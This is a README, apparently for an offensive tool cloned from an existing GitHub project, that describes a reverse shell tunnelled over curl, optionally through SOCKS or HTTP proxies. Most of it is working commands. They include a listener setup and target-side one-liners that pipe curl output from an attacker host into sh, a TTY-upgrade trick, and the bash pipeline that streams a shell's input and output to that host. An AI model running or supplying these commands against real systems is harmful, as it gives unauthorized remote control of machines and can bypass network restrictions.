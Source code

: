 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell); slightly enhanced)

A reverse TCP shell through a proxy (using cURL).

It allows an attacker to access a remote shell (sh) when the remote system can access the Internet via a Proxy only (and no other binaries can be installed or executed). It only needs `curl` and `sh`.

Generate a SSL Certificate:
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | sh
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | sh
```

# Advanced Tricks
Spawn a TTY shell
```sh
stty intr undef ;
./curlshell.py --shell 'script -qc /bin/bash /dev/null' --listen-port 8080 ; stty intr ^C
```

# How it works
The first cURL request pipes this into a bash:
```sh
stdbuf -i0 -o0 -e0 curl -X POST -sk https://1.2.3.4:8080/input \
    | bash 2> >(curl -sk -T - https://1.2.3.4:8080/stderr) \
    | curl -sk -T - https://1.2.3.4:8080/stdout
```

The bash then starts 3 cURL processes to connect stdin, stdout and stderr. HTTP's 'chunked transfer' does the rest.

